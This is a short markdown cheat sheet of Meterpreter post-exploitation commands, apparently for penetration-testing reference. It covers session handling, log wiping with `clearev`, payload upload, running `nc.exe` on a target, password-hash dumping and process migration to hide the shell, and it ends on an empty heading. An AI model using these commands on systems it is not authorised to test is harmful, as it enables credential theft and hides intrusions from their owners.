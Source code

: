 # Metasploit Meterpter Shell
This sheet contains commands often issued via a Meterpreter shell. 
## Shell Session Managament
* Use the `background` command to send the shell session into the background.
* Use the `sessions -l` to list the active sessions
* Use `session -i (NUMBER)` to interact with a session of ID (NUMBER)
## Clear Target's Logs
Use `clearev` to clear the target system's logs.
## File Management
* Use `download C:\boot.ini` to download a file from the target
* Use the `upload` command to upload a payload or file to the target system
* Use `pwd` and `cd` to navigation the target's file system
* Use `edit` to open vim with a fie on teh target server
* Use `search` to search  the file system in a `grep -R`, or `find`, style.
## Command Execution
* Use `execute C:\nc.exe` command to execute the command on the file system. 
## SYSTEM Information Gathering
* Use `hashdump` to get the NT/LM hashes from the target system.
* Use `idletime` to display how long the currently logged in user has been idle at the taregt system.
* Use `ipconfig` to get Network Information from the target system.
## Obfuscation
* Use the `migrate` command to migrate the meterpreter shell to another PID. This will inherit the PID's effective User ID.
## 
